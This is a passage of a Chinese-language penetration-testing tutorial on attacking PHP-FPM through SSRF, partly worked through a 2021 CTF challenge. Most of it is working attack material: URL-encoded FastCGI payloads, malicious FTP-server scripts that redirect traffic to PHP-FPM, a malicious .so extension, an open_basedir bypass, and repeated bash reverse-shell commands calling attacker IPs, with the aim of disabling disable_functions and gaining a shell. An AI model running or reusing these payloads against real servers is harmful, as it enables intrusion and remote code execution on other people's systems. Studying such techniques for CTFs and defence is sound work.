%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%05%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH106%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00j%04%00%3C%3Fphp%20system%28%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.43.247/2333%200%3E%261%22%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00
```

在攻击机上设置好 nc 监听：

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134743-9223f966-b2e5-1.png)

然后编写如下脚本（脚本是从网上扒的，谁叫我菜呢，大佬勿喷~~），在攻击机上搭建一个恶意的 ftp 服务，并将上面的 payload 中的数据替换掉下面 ftp 脚本中的 payload 的内容：

```bash
# -*- coding: utf-8 -*-
# @Time    : 2021/1/13 6:56 下午
# @Author  : tntaxin
# @File    : ftp_redirect.py
# @Software:

import socket
from urllib.parse import unquote

# 对 gopherus 生成的 payload 进行一次 urldecode
payload = unquote("%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%05%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH106%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00j%04%00%3C%3Fphp%20system%28%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.43.247/2333%200%3E%261%22%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00")
payload = payload.encode('utf-8')

host = '0.0.0.0'
port = 23
sk = socket.socket()
sk.bind((host, port))
sk.listen(5)

# ftp 被动模式的 passvie port，监听到 1234
sk2 = socket.socket()
sk2.bind((host, 1234))
sk2.listen()

# 计数器，用于区分是第几次 ftp 连接
count = 1
while 1:
    conn, address = sk.accept()
    conn.send(b"200 \n")
    print(conn.recv(20))  # USER aaa\r\n  客户端传来用户名
    if count == 1:
        conn.send(b"220 ready\n")
    else:
        conn.send(b"200 ready\n")

    print(conn.recv(20))   # TYPE I\r\n  客户端告诉服务端以什么格式传输数据，TYPE I表示二进制， TYPE A表示文本
    if count == 1:
        conn.send(b"215 \n")
    else:
        conn.send(b"200 \n")

    print(conn.recv(20))  # SIZE /123\r\n  客户端询问文件/123的大小
    if count == 1:
        conn.send(b"213 3 \n")  
    else:
        conn.send(b"300 \n")

    print(conn.recv(20))  # EPSV\r\n'
    conn.send(b"200 \n")

    print(conn.recv(20))   # PASV\r\n  客户端告诉服务端进入被动连接模式
    if count == 1:
        conn.send(b"227 127,0,0,1,4,210\n")  # 服务端告诉客户端需要到哪个ip:port去获取数据,ip,port都是用逗号隔开，其中端口的计算规则为：4*256+210=1234
    else:
        conn.send(b"227 127,0,0,1,35,40\n")  # 端口计算规则：35*256+40=9000

    print(conn.recv(20))  # 第一次连接会收到命令RETR /123\r\n，第二次连接会收到STOR /123\r\n
    if count == 1:
        conn.send(b"125 \n") # 告诉客户端可以开始数据连接了
        # 新建一个socket给服务端返回我们的payload
        print("建立连接!")
        conn2, address2 = sk2.accept()
        conn2.send(payload)
        conn2.close()
        print("断开连接!")
    else:
        conn.send(b"150 \n")
        print(conn.recv(20))
        exit()

    # 第一次连接是下载文件，需要告诉客户端下载已经结束
    if count == 1:
        conn.send(b"226 \n")
    conn.close()
    count += 1
```

运行上述脚本，一个恶意 ftp 服务就起来了：

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134743-9253cd1c-b2e5-1.png)

这个脚本做的事情很简单，就是当客户端第一次连接的时候返回我们预设的 payload；当客户端第二次连接的时候将客户端的连接重定向到 127.0.0.1:9000，也就是目标主机上 php-fpm 服务的端口，从而造成 SSRF，攻击其 php-fpm。

最后，构造如下请求，触发攻击：

```bash
/ssrf.php?viewFile=ftp://aaa@192.168.43.247:23/123
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134744-9298ae28-b2e5-1.png)

成功反弹 shell：

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134744-92ee0e9a-b2e5-1.png)

假设有以下代码：

```bash
<?php
file_put_contents($_GET['file'], $_GET['data']);
```

经测试目标主机的 9000 端口上存在 PHP-FPM，那我们便可以利用与刚才相似的原理，通过搭建恶意的 ftp 服务器来攻击 PHP-FPM。

首先还是使用 gopherus 生成 payload：

```bash
python gopherus.py --exploit fastcgi
/var/www/html/index.php  # 这里输入的是目标主机上一个已知存在的 php 文件
bash -c "bash -i >& /dev/tcp/192.168.43.247/2333 0>&1"  # 这里输入的是要执行的命令
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134743-91ebb1a0-b2e5-1.png)

得到的 payload 只截取 `_` 后面的数据部分。

然后再攻击机上执行以下 python 脚本搭建一个恶意的 ftp 服务器：

```bash
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
s.bind(('0.0.0.0', 23))
s.listen(1)
conn, addr = s.accept()
conn.send(b'220 welcome\n')
#Service ready for new user.
#Client send anonymous username
#USER anonymous
conn.send(b'331 Please specify the password.\n')
#User name okay, need password.
#Client send anonymous password.
#PASS anonymous
conn.send(b'230 Login successful.\n')
#User logged in, proceed. Logged out if appropriate.
#TYPE I
conn.send(b'200 Switching to Binary mode.\n')
#Size /
conn.send(b'550 Could not get the file size.\n')
#EPSV (1)
conn.send(b'150 ok\n')
#PASV
conn.send(b'227 Entering Extended Passive Mode (127,0,0,1,0,9001)\n') #STOR / (2)
conn.send(b'150 Permission denied.\n')
#QUIT
conn.send(b'221 Goodbye.\n')
conn.close()
```

并在 vps 上开启一个 nc 监听，用于接收反弹的 shell：

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134746-93e65a0a-b2e5-1.png)

最后构造 url 发送 payload 即可：

```bash
/?file=ftp://aaa@192.168.43.247:23/123&data=%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%05%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH106%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00j%04%00%3C%3Fphp%20system%28%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.43.247/2333%200%3E%261%22%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134746-9433ab84-b2e5-1.png)

如下图所示，命令执行成功，并成功反弹 Shell：

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134747-94b41774-b2e5-1.png)

## 通过加载恶意 .so 实现 RCE 绕过 Disable\_Dunctions

我们在渗透测试中常常会遇到目标环境设置了 disable\_functions 的情况，`disable_functions` 这个选项是 PHP 加载的时候就确定了并且我们没有权限通过 `php_value` 选项对其进行修改，但是 LD\_PRELOAD 绕过 disable\_functions 的方法给了我们思路。即我们可以通过加载恶意 .so 扩展的方法实现系统命令的执行，从而一举绕过 disable\_functions 对我们的限制。

有时候常见的攻击 PHP-FPM 的方法并不能成功实现代码执行，但我们可以通过加载恶意 .so 扩展的方法实现系统的命令执行。我们知道 LD\_PRELOAD 绕过 disable\_functions 大致就是把我们编译出来的恶意的 .so 文件加载到环境变量中去执行，从而实现执行系统命令。

LD\_PRELOAD 是通过 putenv() 把 so 文件加载到环境变量中再去调用。那么我们 Fastcgi 也完全可以做同样的事，只需要通过 `PHP_VALUE` 给 php.ini 添加一个 extender 扩展就行了。

```bash
$php_value = "unserialize_callback_func = system\nextension_dir = /tmp\nextension = hpdoger.so\ndisable_classes = \ndisable_functions = \nallow_url_include = On\nopen_basedir = /\nauto_prepend_file = ";
```

下面我们通过 [\[2021 蓝帽杯\]one\_Pointer\_php](https://buuoj.cn/challenges#[%E8%93%9D%E5%B8%BD%E6%9D%AF%202021]One%20Pointer%20PHP) 这道 CTF 例题来演示攻击过程。

该可以通过 PHP 数组溢出绕过限制实现 eval() 任意代码执行，但是题目的 PHP 环境还设置了以下两个限制：

-   disable\_functions：

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134747-94e0dc50-b2e5-1.png)

过滤了各种命令执行函数，但是像 scandir、file\_get\_contents、file\_put\_contents 等目录和文件操作函数没有被过滤

-   open\_basedir

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134748-95055bfc-b2e5-1.png)

设置了 open\_basedir，只能访问 Web 目录，但我们可以利用 chdir() 与 ini\_set() 组合来绕过 open\_basedir：

```bash
/add_api.php?backdoor=mkdir('css');chdir('css');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');print_r(scandir('/'));
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134748-955479bc-b2e5-1.png)

在根目录里发现了 flag。

尝试使用 file\_get\_contents() 等函数读取均失败，猜测是出题人对 flag 的权限做了限制。那我们就要想办法提权了，但是要提权则必须先拿到 shell 执行命令，也就是得要先绕过 disable\_functions。

这里尝试了很多方法绕过 disable\_functions 均失败，当我读取 /proc/self/cmdline 时发现当前进程是 php-fpm：

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134749-959b765a-b2e5-1.png)

所以说这道题应该就是通过攻击 php-fpm 来绕过 disable\_functions 了。

首先查看 nginx 配置文件：

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134749-95bd92ee-b2e5-1.png)

发现 PHP-FPM 绑定在了本地 9001 端口上。

好了，既然我们可以通过 eval() 执行任意代码，那我们便可以构造恶意代码进行 SSRF，利用 SSRF 攻击本地的 PHP-FPM。我们可以通过在 vps 上搭建恶意的 ftp，骗取目标主机将 payload 转发到自己的 9001 端口上，从而实现攻击 PHP-FPM 并执行命令，原理上文已经讲过了。

首先使用以下 c 文件 hpdoger.c 编译一个恶意的 .so 扩展，这里直接用网上亘古不变的写法：

```bash
#define _GNU_SOURCE
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

__attribute__ ((__constructor__)) void preload (void){
    system("bash -c 'bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1'");
}
```

通过 shared 命令编译：

```bash
gcc hpdoger.c -fPIC -shared -o hpdoger.so
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134749-960b1ee2-b2e5-1.png)

然后将生成的 hpdoger.so 上传到目标主机（我这里上传到 /tmp 目录，可以使用 `copy('http://vps/hpdoger.so','/tmp/hpdoger.so')` ）

然后简单修改以下脚本（根据 [fcgi\_jailbreak.php](https://github.com/wofeiwo/webcgi-exploits/blob/master/php/Fastcgi/fcgi_jailbreak.php) 改的）并执行，生成 payload：

```bash
<?php
/**
 * Note : Code is released under the GNU LGPL
 *
 * Please do not change the header of this file
 *
 * This library is free software; you can redistribute it and/or modify it under the terms of the GNU
 * Lesser General Public License as published by the Free Software Foundation; either version 2 of
 * the License, or (at your option) any later version.
 *
 * This library is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY;
 * without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
 *
 * See the GNU Lesser General Public License for more details.
 */
/**
 * Handles communication with a FastCGI application
 *
 * @author      Pierrick Charron <pierrick@webstart.fr>
 * @version     1.0
 */
class FCGIClient
{
    const VERSION_1            = 1;
    const BEGIN_REQUEST        = 1;
    const ABORT_REQUEST        = 2;
    const END_REQUEST          = 3;
    const PARAMS               = 4;
    const STDIN                = 5;
    const STDOUT               = 6;
    const STDERR               = 7;
    const DATA                 = 8;
    const GET_VALUES           = 9;
    const GET_VALUES_RESULT    = 10;
    const UNKNOWN_TYPE         = 11;
    const MAXTYPE              = self::UNKNOWN_TYPE;
    const RESPONDER            = 1;
    const AUTHORIZER           = 2;
    const FILTER               = 3;
    const REQUEST_COMPLETE     = 0;
    const CANT_MPX_CONN        = 1;
    const OVERLOADED           = 2;
    const UNKNOWN_ROLE         = 3;
    const MAX_CONNS            = 'MAX_CONNS';
    const MAX_REQS             = 'MAX_REQS';
    const MPXS_CONNS           = 'MPXS_CONNS';
    const HEADER_LEN           = 8;
    /**
     * Socket
     * @var Resource
     */
    private $_sock = null;
    /**
     * Host
     * @var String
     */
    private $_host = null;
    /**
     * Port
     * @var Integer
     */
    private $_port = null;
    /**
     * Keep Alive
     * @var Boolean
     */
    private $_keepAlive = false;
    /**
     * Constructor
     *
     * @param String $host Host of the FastCGI application
     * @param Integer $port Port of the FastCGI application
     */
    public function __construct($host, $port = 9001) // and default value for port, just for unixdomain socket
    {
        $this->_host = $host;
        $this->_port = $port;
    }
    /**
     * Define whether or not the FastCGI application should keep the connection
     * alive at the end of a request
     *
     * @param Boolean $b true if the connection should stay alive, false otherwise
     */
    public function setKeepAlive($b)
    {
        $this->_keepAlive = (boolean)$b;
        if (!$this->_keepAlive && $this->_sock) {
            fclose($this->_sock);
        }
    }
    /**
     * Get the keep alive status
     *
     * @return Boolean true if the connection should stay alive, false otherwise
     */
    public function getKeepAlive()
    {
        return $this->_keepAlive;
    }
    /**
     * Create a connection to the FastCGI application
     */
    private function connect()
    {
        if (!$this->_sock) {
            //$this->_sock = fsockopen($this->_host, $this->_port, $errno, $errstr, 5);
            $this->_sock = stream_socket_client($this->_host, $errno, $errstr, 5);
            if (!$this->_sock) {
                throw new Exception('Unable to connect to FastCGI application');
            }
        }
    }
    /**
     * Build a FastCGI packet
     *
     * @param Integer $type Type of the packet
     * @param String $content Content of the packet
     * @param Integer $requestId RequestId
     */
    private function buildPacket($type, $content, $requestId = 1)
    {
        $clen = strlen($content);
        return chr(self::VERSION_1)         /* version */
            . chr($type)                    /* type */
            . chr(($requestId >> 8) & 0xFF) /* requestIdB1 */
            . chr($requestId & 0xFF)        /* requestIdB0 */
            . chr(($clen >> 8 ) & 0xFF)     /* contentLengthB1 */
            . chr($clen & 0xFF)             /* contentLengthB0 */
            . chr(0)                        /* paddingLength */
            . chr(0)                        /* reserved */
            . $content;                     /* content */
    }
    /**
     * Build an FastCGI Name value pair
     *
     * @param String $name Name
     * @param String $value Value
     * @return String FastCGI Name value pair
     */
    private function buildNvpair($name, $value)
    {
        $nlen = strlen($name);
        $vlen = strlen($value);
        if ($nlen < 128) {
            /* nameLengthB0 */
            $nvpair = chr($nlen);
        } else {
            /* nameLengthB3 & nameLengthB2 & nameLengthB1 & nameLengthB0 */
            $nvpair = chr(($nlen >> 24) | 0x80) . chr(($nlen >> 16) & 0xFF) . chr(($nlen >> 8) & 0xFF) . chr($nlen & 0xFF);
        }
        if ($vlen < 128) {
            /* valueLengthB0 */
            $nvpair .= chr($vlen);
        } else {
            /* valueLengthB3 & valueLengthB2 & valueLengthB1 & valueLengthB0 */
            $nvpair .= chr(($vlen >> 24) | 0x80) . chr(($vlen >> 16) & 0xFF) . chr(($vlen >> 8) & 0xFF) . chr($vlen & 0xFF);
        }
        /* nameData & valueData */
        return $nvpair . $name . $value;
    }
    /**
     * Read a set of FastCGI Name value pairs
     *
     * @param String $data Data containing the set of FastCGI NVPair
     * @return array of NVPair
     */
    private function readNvpair($data, $length = null)
    {
        $array = array();
        if ($length === null) {
            $length = strlen($data);
        }
        $p = 0;
        while ($p != $length) {
            $nlen = ord($data{$p++});
            if ($nlen >= 128) {
                $nlen = ($nlen & 0x7F << 24);
                $nlen |= (ord($data{$p++}) << 16);
                $nlen |= (ord($data{$p++}) << 8);
                $nlen |= (ord($data{$p++}));
            }
            $vlen = ord($data{$p++});
            if ($vlen >= 128) {
                $vlen = ($nlen & 0x7F << 24);
                $vlen |= (ord($data{$p++}) << 16);
                $vlen |= (ord($data{$p++}) << 8);
                $vlen |= (ord($data{$p++}));
            }
            $array[substr($data, $p, $nlen)] = substr($data, $p+$nlen, $vlen);
            $p += ($nlen + $vlen);
        }
        return $array;
    }
    /**
     * Decode a FastCGI Packet
     *
     * @param String $data String containing all the packet
     * @return array
     */
    private function decodePacketHeader($data)
    {
        $ret = array();
        $ret['version']       = ord($data{0});
        $ret['type']          = ord($data{1});
        $ret['requestId']     = (ord($data{2}) << 8) + ord($data{3});
        $ret['contentLength'] = (ord($data{4}) << 8) + ord($data{5});
        $ret['paddingLength'] = ord($data{6});
        $ret['reserved']      = ord($data{7});
        return $ret;
    }
    /**
     * Read a FastCGI Packet
     *
     * @return array
     */
    private function readPacket()
    {
        if ($packet = fread($this->_sock, self::HEADER_LEN)) {
            $resp = $this->decodePacketHeader($packet);
            $resp['content'] = '';
            if ($resp['contentLength']) {
                $len  = $resp['contentLength'];
                while ($len && $buf=fread($this->_sock, $len)) {
                    $len -= strlen($buf);
                    $resp['content'] .= $buf;
                }
            }
            if ($resp['paddingLength']) {
                $buf=fread($this->_sock, $resp['paddingLength']);
            }
            return $resp;
        } else {
            return false;
        }
    }
    /**
     * Get Informations on the FastCGI application
     *
     * @param array $requestedInfo information to retrieve
     * @return array
     */
    public function getValues(array $requestedInfo)
    {
        $this->connect();
        $request = '';
        foreach ($requestedInfo as $info) {
            $request .= $this->buildNvpair($info, '');
        }
        fwrite($this->_sock, $this->buildPacket(self::GET_VALUES, $request, 0));
        $resp = $this->readPacket();
        if ($resp['type'] == self::GET_VALUES_RESULT) {
            return $this->readNvpair($resp['content'], $resp['length']);
        } else {
            throw new Exception('Unexpected response type, expecting GET_VALUES_RESULT');
        }
    }
    /**
     * Execute a request to the FastCGI application
     *
     * @param array $params Array of parameters
     * @param String $stdin Content
     * @return String
     */
    public function request(array $params, $stdin)
    {
        $response = '';
//        $this->connect();
        $request = $this->buildPacket(self::BEGIN_REQUEST, chr(0) . chr(self::RESPONDER) . chr((int) $this->_keepAlive) . str_repeat(chr(0), 5));
        $paramsRequest = '';
        foreach ($params as $key => $value) {
            $paramsRequest .= $this->buildNvpair($key, $value);
        }
        if ($paramsRequest) {
            $request .= $this->buildPacket(self::PARAMS, $paramsRequest);
        }
        $request .= $this->buildPacket(self::PARAMS, '');
        if ($stdin) {
            $request .= $this->buildPacket(self::STDIN, $stdin);
        }
        $request .= $this->buildPacket(self::STDIN, '');
        echo('data='.urlencode($request));
//        fwrite($this->_sock, $request);
//        do {
//            $resp = $this->readPacket();
//            if ($resp['type'] == self::STDOUT || $resp['type'] == self::STDERR) {
//                $response .= $resp['content'];
//            }
//        } while ($resp && $resp['type'] != self::END_REQUEST);
//        var_dump($resp);
//        if (!is_array($resp)) {
//            throw new Exception('Bad request');
//        }
//        switch (ord($resp['content']{4})) {
//            case self::CANT_MPX_CONN:
//                throw new Exception('This app can\'t multiplex [CANT_MPX_CONN]');
//                break;
//            case self::OVERLOADED:
//                throw new Exception('New request rejected; too busy [OVERLOADED]');
//                break;
//            case self::UNKNOWN_ROLE:
//                throw new Exception('Role value not known [UNKNOWN_ROLE]');
//                break;
//            case self::REQUEST_COMPLETE:
//                return $response;
//        }
    }
}
?>
<?php
// real exploit start here
//if (!isset($_REQUEST['cmd'])) {
//    die("Check your input\n");
//}
//if (!isset($_REQUEST['filepath'])) {
//    $filepath = __FILE__;
//}else{
//    $filepath = $_REQUEST['filepath'];
//}

$filepath = "/var/www/html/add_api.php";    // 目标主机已知的 PHP 文件的路径
$req = '/'.basename($filepath);
$uri = $req .'?'.'command=whoami';    // 啥也不是，不用管
$client = new FCGIClient("unix:///var/run/php-fpm.sock", -1);
$code = "<?php system(\$_REQUEST['command']); phpinfo(); ?>";    // 啥也不是，不用管
$php_value = "unserialize_callback_func = system\nextension_dir = /tmp\nextension = hpdoger.so\ndisable_classes = \ndisable_functions = \nallow_url_include = On\nopen_basedir = /\nauto_prepend_file = ";
$params = array(
    'GATEWAY_INTERFACE' => 'FastCGI/1.0',
    'REQUEST_METHOD'    => 'POST',
    'SCRIPT_FILENAME'   => $filepath,
    'SCRIPT_NAME'       => $req,
    'QUERY_STRING'      => 'command=whoami',
    'REQUEST_URI'       => $uri,
    'DOCUMENT_URI'      => $req,
#'DOCUMENT_ROOT'     => '/',
    'PHP_VALUE'         => $php_value,
    'SERVER_SOFTWARE'   => '80sec/wofeiwo',
    'REMOTE_ADDR'       => '127.0.0.1',
    'REMOTE_PORT'       => '9001',
    'SERVER_ADDR'       => '127.0.0.1',
    'SERVER_PORT'       => '80',
    'SERVER_NAME'       => 'localhost',
    'SERVER_PROTOCOL'   => 'HTTP/1.1',
    'CONTENT_LENGTH'    => strlen($code)
);
// print_r($_REQUEST);
// print_r($params);
//echo "Call: $uri\n\n";
echo $client->request($params, $code)."\n";
?>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134750-9667f37e-b2e5-1.png)

然后执行以下脚本自己 vps 上搭建一个恶意的 ftp 服务器：

```bash
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
s.bind(('0.0.0.0', 23))
s.listen(1)
conn, addr = s.accept()
conn.send(b'220 welcome\n')
#Service ready for new user.
#Client send anonymous username
#USER anonymous
conn.send(b'331 Please specify the password.\n')
#User name okay, need password.
#Client send anonymous password.
#PASS anonymous
conn.send(b'230 Login successful.\n')
#User logged in, proceed. Logged out if appropriate.
#TYPE I
conn.send(b'200 Switching to Binary mode.\n')
#Size /
conn.send(b'550 Could not get the file size.\n')
#EPSV (1)
conn.send(b'150 ok\n')
#PASV
conn.send(b'227 Entering Extended Passive Mode (127,0,0,1,0,9001)\n') #STOR / (2)
conn.send(b'150 Permission denied.\n')
#QUIT
conn.send(b'221 Goodbye.\n')
conn.close()
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134750-9689433a-b2e5-1.png)

然后在 vps 上开启一个 nc 监听，用于接收反弹的 shell：

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134750-96a1e7f0-b2e5-1.png)

最后通过 eval() 构造如下恶意代码通过 file\_put\_contents() 与我们 vps 上恶意的 ftp 服务器建立连接：

```bash
/add_api.php?backdoor=$file = $_GET['file'];$data = $_GET['data'];file_put_contents($file,$data);&file=ftp://aaa@47.101.57.72:23/123&data=%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%02%3F%00%00%11%0BGATEWAY_INTERFACEFastCGI%2F1.0%0E%04REQUEST_METHODPOST%0F%19SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Fadd_api.php%0B%0CSCRIPT_NAME%2Fadd_api.php%0C%0EQUERY_STRINGcommand%3Dwhoami%0B%1BREQUEST_URI%2Fadd_api.php%3Fcommand%3Dwhoami%0C%0CDOCUMENT_URI%2Fadd_api.php%09%80%00%00%B3PHP_VALUEunserialize_callback_func+%3D+system%0Aextension_dir+%3D+%2Ftmp%0Aextension+%3D+hpdoger.so%0Adisable_classes+%3D+%0Adisable_functions+%3D+%0Aallow_url_include+%3D+On%0Aopen_basedir+%3D+%2F%0Aauto_prepend_file+%3D+%0F%0DSERVER_SOFTWARE80sec%2Fwofeiwo%0B%09REMOTE_ADDR127.0.0.1%0B%04REMOTE_PORT9000%0B%09SERVER_ADDR127.0.0.1%0B%02SERVER_PORT80%0B%09SERVER_NAMElocalhost%0F%08SERVER_PROTOCOLHTTP%2F1.1%0E%02CONTENT_LENGTH49%01%04%00%01%00%00%00%00%01%05%00%01%001%00%00%3C%3Fphp+system%28%24_REQUEST%5B%27command%27%5D%29%3B+phpinfo%28%29%3B+%3F%3E%01%05%00%01%00%00%00%00
```

此时当 ftp 建立连接后，会通过被动模式将 payload 重定向到目标主机本地 9001 端口的 PHP-FPM 上，并成功反弹 Shell：

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134751-96c8a3f4-b2e5-1.png)

后面就是一个 SUID 提权了，利用的是 /usr/local/bin/php，直接进行 PHP 交互模式执行代码获取 flag 即可。

## 未完待续......

> 参考：
> 
> [https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html](https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html)
> 
> [https://www.cnblogs.com/itbsl/p/9828776.html#web-服务器和-fastcgi-交互过程](https://www.cnblogs.com/itbsl/p/9828776.html#web-%E6%9C%8D%E5%8A%A1%E5%99%A8%E5%92%8C-fastcgi-%E4%BA%A4%E4%BA%92%E8%BF%87%E7%A8%8B)
> 
> [https://xz.aliyun.com/t/5598#toc-4](https://xz.aliyun.com/t/5598#toc-4)
> 
> [https://bbs.ichunqiu.com/thread-58455-1-1.html](https://bbs.ichunqiu.com/thread-58455-1-1.html)
> 
> [https://github.com/adoy/PHP-FastCGI-Client](https://github.com/adoy/PHP-FastCGI-Client)
> 
> [https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75](https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75)
> 
> [https://github.com/wofeiwo/webcgi-exploits/blob/master/php/Fastcgi/fcgi\_jailbreak.php](https://github.com/wofeiwo/webcgi-exploits/blob/master/php/Fastcgi/fcgi_jailbreak.php)
> 
> [https://github.com/wofeiwo/webcgi-exploits/blob/master/php/Fastcgi/php-fastcgi-remote-exploit.md](https://github.com/wofeiwo/webcgi-exploits/blob/master/php/Fastcgi/php-fastcgi-remote-exploit.md)
